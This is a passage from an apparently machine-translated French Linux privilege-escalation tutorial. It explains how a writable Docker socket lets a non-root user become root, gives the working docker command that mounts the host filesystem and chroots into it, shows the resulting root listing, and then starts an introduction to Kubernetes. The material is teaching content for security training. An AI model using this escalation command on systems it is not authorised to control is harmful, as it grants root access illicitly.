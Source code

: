 
#### Prise Docker

Un cas qui peut également se produire est lorsque le socket Docker est accessible en écriture. Habituellement, cette prise est située dans `/var/run/docker.sock`. Cependant, l'emplacement peut naturellement être différent. Parce que fondamentalement, cela ne peut être écrit que par un groupe root ou docker. Si nous agissons en tant qu'utilisateur ne faisant pas partie de l'un de ces deux groupes et que le socket Docker a toujours les privilèges d'être accessible en écriture, nous pouvons toujours utiliser ce cas pour élever nos privilèges.

  Prise Docker

```
docker-user@nix02:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
root@nix02:~# ls -l /mnt

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var

```

#### Kubernetes

Comparé à Docker, Kubernetes est une plate-forme permettant d'exécuter et de gérer des conteneurs à partir de nombreux environnements d'exécution de conteneurs. Kubernetes ( `K8s`) prend en charge de nombreux environnements d'exécution de conteneur, y compris Docker. Kubernetes est à l'origine de Google, l'un des premiers partisans des technologies de conteneur Linux. Cette plate-forme open source automatise le fonctionnement des conteneurs Linux. Des groupes entiers d'hôtes exécutant les conteneurs sont regroupés pour une gestion facile.
